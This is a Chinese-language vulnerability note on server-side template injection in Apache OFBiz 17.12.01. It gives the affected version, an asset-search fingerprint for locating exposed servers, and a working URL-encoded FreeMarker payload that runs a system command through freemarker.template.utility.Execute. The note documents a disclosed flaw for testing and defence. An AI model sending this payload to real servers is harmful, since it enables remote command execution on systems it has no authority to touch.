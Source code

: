 # 

# Apache OfBiz 服务器端模板注入 SSTI

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-067-apache_ofbiz

## 漏洞影响

```
Apache OfBiz 17.12.01
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

服务器端模板注入 renderLookupField

从不可信数据流request.getParameter("`_LAST_VIEW_NAME_`")给一个FreeMarker的宏调用定义。具有特权以渲染任何包含查找字段的页面的攻击者将能够通过发送有效载荷来执行任意系统命令。

poc：

```
https://localhost:8443/ordermgr/control/FindQuote?_LAST_VIEW_NAME_=%22%2F%3E%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%3CFOO
```



